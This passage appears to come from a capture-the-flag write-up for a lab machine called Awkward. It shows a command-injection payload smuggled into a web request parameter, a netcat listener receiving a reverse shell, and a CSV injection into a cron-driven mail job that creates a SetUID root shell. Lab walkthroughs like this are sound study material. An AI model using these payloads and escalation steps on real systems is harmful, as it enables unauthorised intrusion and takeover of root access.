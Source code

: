     item=1'+-e+'1e+/dev/shm/shell.sh'+'&user=8b80-fbfb-a3c-e97a&action=delete_item



It hangs, but there's a connection at `nc` as www-data:



    oxdf@hacky$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.185 40314
    bash: cannot set terminal process group (1408): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@awkward:~/store$



### Path to root

With a shell as www-data, I don't have to play with the store at all. I
have write access to `leave_requests.csv`, and I can identify the incron
that's sending mail when that updates the same was as
[above](#processes). I'll stage a script to create a SetUID `bash` (just
like [above](#inject-into-mail), making sure to `chmod +x` the script as
well).

With that, I can write the `main` injection directly into the file:



    www-data@awkward:~/private$ echo '0xdf --exec="!/dev/shm/0xdf.sh",,today,tomorrow,Pending' >> leave_requests.csv 



When the cron runs (almost instantly), there's a `/tmp/0xdf` owned by
root and with SetUID bit on:



    www-data@awkward:~/private$ ls -l /tmp/0xdf 
    -rwsrwxrwx 1 root root 1396520 Feb 17 23:32 /tmp/0xdf



It gives a root shell:



    www-data@awkward:~/private$ /tmp/0xdf -p
    0xdf-5.1#







